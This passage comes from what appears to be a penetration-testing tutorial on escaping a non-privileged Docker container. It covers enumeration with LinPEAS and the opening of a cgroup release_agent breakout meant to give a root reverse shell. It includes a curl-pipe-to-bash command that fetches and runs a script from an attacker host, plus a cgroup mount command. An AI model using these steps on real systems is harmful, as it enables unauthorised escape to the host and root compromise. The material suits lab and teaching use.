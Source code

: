 Perfect! Our inspection of the file revealed it does not exist, which means that AppArmor is unloaded!

Since AppArmor is unloaded and CAP_SYS_ADMIN is enabled, we have both of the required privileges to break out of this container without the –privileged flag being set.

However, before we see how to breakout of this container, let’s see how well LinPEAS enumerates inside a container for us.
Hunting for a Docker Breakout Using Tools – LinPEAS

Piggy-backing off of our last LinPEAS example, let’s say everything is setup and ready to go (HTTP server running on attacker to serve up LinPEAS), and all we need to do is download and execute LinPEAS.

curl 172.16.1.30/linpeas.sh | bash

First thing we will notice in the results is that, the tests are being ran as root. Unfortunately, this will lead to some false positive findings.

Because we are root, we will see A LOT of red/yellow findings. To siphon out the noise, it really comes down to having done some manual enumeration already to determine that we are in a container before running LinPEAS. Knowing this, we can avoid the noise and go straight to the info we want to know.

If we scroll down a bit we will see “Protections”, this is where we will find what security features are enabled in the container.

This tells us that seccomp is enabled, but AppArmor is “unconfined”, meaning we should be able to utilize the mount command.

    When AppArmor is enabled you are not able to use the mount command, permissions will be denied.

Finding A LOT of Good Information About the Container

Just below the “Protections” subsection, we will see the “Container” section, which is where we will learn the most about the containers configuration.

Here we can see that LinPEAS has determined we are in a container, and it shows that AppArmor is “unconfined”. However, the most interesting finding is that the docker is vulnerable to “release_agent” breakout 1 and 2.

Next, if we scroll down just a little further, we can see the “Container Capabilities”.

The rest of the checks beyond this section are standard checks, and being root already, they are full of false positive red/yellow findings.

LinPEAS does a great job at enumerating inside a container. It was able to find all the information we found with manual enumeration; however, the real benefit is how LinPEAS checks for different breakout methods that can be used with the current set of privileges.
Breaking out of a Non-Privileged Container with the release_agent Breakout 2 Method

By enumerating the docker container, we found that we should be able to breakout with the “release_agent breakout 2” method.

Now let’s see how we can use this technique to breakout and get a reverse shell as root!

First, we need to mount the RDMA cgroup controller and create a child cgroup.

mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
